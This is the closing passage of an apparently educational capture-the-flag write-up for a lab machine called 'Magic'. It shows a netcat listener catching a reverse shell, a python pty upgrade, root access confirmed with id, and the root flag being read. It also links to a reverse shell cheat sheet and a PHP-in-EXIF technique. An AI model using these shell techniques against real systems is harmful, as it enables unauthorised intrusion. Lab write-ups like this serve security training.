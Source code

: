 ```shell 
---ATTACKING HOST---
[_4m0r@manjaro Magic]$ nc -nvlp 9090 
Connection from 10.10.10.185:37062 
# python3 -c "import pty;pty.spawn('/bin/bash');" 
root@ubuntu:~/tmp# cd /root 
cd /root 
root@ubuntu:/root# id 
id 
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus) 
root@ubuntu:/root# cat root.txt 
cat root.txt 
c1b5d---REDACTED---bbab6
```
![Root Shell](/assets/img/posts/magic/root.png)

# Resources
[^f1]:[targetRecon](https://github.com/4m0r/targetRecon)
[^f2]:[exiftool](https://exiftool.org/install.html)
[^f3]:[A Silent Threat- PHP in EXIF](https://websec.io/2012/09/05/A-Silent-Threat-PHP-in-EXIF.html)
[^f4]:[pentestmonkey- Reverse Shell Cheat Sheet](http://pentestmonkey.net/category/cheat-sheet)